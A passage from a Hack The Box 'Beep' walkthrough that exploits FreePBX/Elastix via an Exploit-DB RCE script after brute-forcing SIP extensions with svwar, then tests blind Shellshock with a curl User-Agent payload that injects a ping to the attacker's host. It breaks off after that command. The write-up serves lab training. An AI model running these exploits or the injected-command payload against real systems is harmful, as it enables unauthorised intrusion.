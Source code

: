 
# Initial Foothold - 3
## FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
1. FreeBPX
	- FreePBX is _a web-based open-source graphical user interface (GUI) that manages Asterisk, a voice over IP and telephony server_.
2. Try `php/webapps/18650.py`
	1. This exploit allows you to do RCE w/o authentication due to lack of input sanitization 
		- [Explanation](https://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/
	2. We have to find an open extension w/ `svwar` via bruteforce it until a valid one comes up
		```
		┌──(root💀kali)-[~/htb/beep]
		└─# svwar -m INVITE -e200-300 10.10.10.7
		WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
		+-----------+----------------+
		| Extension | Authentication |
		+===========+================+
		| 233       | reqauth        |
		+-----------+----------------+

		```
		- I had to try it multiple times to get `reqauth` extension
	3. Update `18650.py`
		![]({{ page.img_path }}Pasted%20image%2020220823043714.png)
	4. Start listener at port 443
	5. Exploit
		```
		┌──(root💀kali)-[~/htb/beep/10.10.10.7/exploit]
		└─# python 18650.py 
		```
	6. Shell obtained
		![]({{ page.img_path }}Pasted%20image%2020220823043840.png)
7. [IppSec Tutorial](https://www.youtube.com/watch?v=XJmBpOd__N8)	


# Initial Foothold - 4
## TCP/10000 (HTTPS) - Blind Shellshock
1. Make a login attempt at `https://beep.htb:10000`, we can see that we are redirected to `session_login.cgi`
	![]({{ page.img_path }}Pasted%20image%2020220823045700.png)
2. Since the file extension is `.cgi`, Shell Shock should be attempted
3. Results of the command execution will not be reflected/outputed on the webpage, so we have to use `tcpdump` and execute a `ping` command. If `tcpdump` receives a ping, shell shock works.
4. Start `tcpdump` 
	```
	┌──(root💀kali)-[~/htb/beep/10.10.10.7/exploit]
	└─# tcpdump -i tun0
	```
5. Attempt [Shell Shock](https://yufongg.github.io/posts/Shellshock-via-cgi-bin/), it works!
	```
	┌──(root💀kali)-[~/htb/beep]
	└─# curl -A "() { :;}; echo Content-Type: text/html; ping -c 1 10.10.14.2;" https://beep.htb:10000
	